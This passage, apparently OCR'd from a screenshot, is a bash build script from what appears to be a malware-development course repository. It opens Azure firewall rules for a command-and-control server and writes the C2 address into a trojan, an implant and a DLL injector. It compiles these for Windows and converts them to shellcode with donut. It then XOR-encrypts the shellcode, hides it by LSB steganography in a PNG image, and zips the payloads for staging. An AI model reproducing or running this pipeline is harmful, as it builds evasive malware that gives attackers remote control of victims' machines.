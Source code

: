 ```bash
    --priority 330 \
    --source-address-prefix $bmip \
    --source-port-range "*" \
    --destination-port-ranges 80 > /dev/null 2>&1
echo "[+] Inbound rule for port 80 added to c2-nsg"

az network nsg rule create \
    --resource-group CrashCourseMaldev \
    --nsg-name c2-nsg \
    --name AllowC2Connection3 \
    --access Allow \
    --protocol Tcp \
    --direction Inbound \
    --priority 340 \
    --source-address-prefix $bmip \
    --source-port-range "*" \
    --destination-port-ranges 443 > /dev/null 2>&1
echo "[+] Inbound rule for port 443 added to c2-nsg"

echo "[+] Compiling implant.exe..."
sed -i "s/inet_addr(\"[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\")/inet_addr(\"$c2ip\")/" Part3/implant.cpp
x86_64-w64-mingw32-g++ -o Part3/implant Part3/implant.cpp -lwsock32 -lws2_32

echo "[+] Generating implant.c shellcode..."
export WINEDEBUG=fixme-all
wine donut.exe -b 1 -o Shellcodes/implant.c -f 3 -t Part3/implant.exe > /dev/null 2>&1
sed -i 's/buf/shellcodePayload/' Shellcodes/implant.c
sed -i 's/^.*unsigned char shellcodePayload\[\] =.*$//g' Part2/evildll.cpp
sed -i '/\x[a-f0-9]\{2\}/d' Part2/evildll.cpp
sed -i '6 r Shellcodes/implant.c' Part2/evildll.cpp

echo "[+] Compiling dllinjector.exe and evildll.dll..."
sed -i "s/\\(http:\\/\\/\)[0-9]\\{1,3\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\(:80\\/.*\\)/\\1$c2ip\\2/" Part2/dllinjector.cpp
x86_64-w64-mingw32-g++ -shared -o Part2/evildll.dll Part2/evildll.def Part2/evildll.cpp
x86_64-w64-mingw32-g++ -o Part2/dllinjector Part2/dllinjector.cpp -Wno-all -lurlmon -lwininet -Wl,--subsystem,windows

echo "[+] Generating dllinjector.bin shellcode..."
wine donut.exe -e 1 -b 1 -o Shellcodes/dllinjector.bin -t Part2/dllinjector.exe > /dev/null 2>&1

echo "[+] Encrypting dllinjector.bin shellcode..."
python3 Scripts/xor.py Shellcodes/dllinjector.bin
mv encrypted.bin Shellcodes/dllinjectorencrypted.bin

echo "[+] Injecting dllinjectorencrypted.bin into pornhub.png..."
python3 Scripts/lsb.py -hide Part1/pornhub.png Shellcodes/dllinjectorencrypted.bin Part1/pornhublsb.png > /dev/null 2>&1

echo "[+] Compiling trojan.exe..."
sed -i "s/inet_addr(\"[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\")/inet_addr(\"$c2ip\")/" Part1/trojan.cpp
x86_64-w64-mingw32-windres -o Part1/resources.o Part1/resources.rc
x86_64-w64-mingw32-g++ -o Part1/trojan Part1/trojan.cpp -lwsock32 -lws2_32 -Wl,--subsystem,windows Part1/resources.o

echo "[+] Ziping resources into Test.zip ..."
zip -r Test.zip Part1/trojan.exe Part2/evildll.dll Servers

echo "[+] Sending setup.sh and Test.zip to C2..."
sed -i "s/\"[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\\.[0-9]\\{1,3\\}\"/\"$bmip\"/" setup.sh
```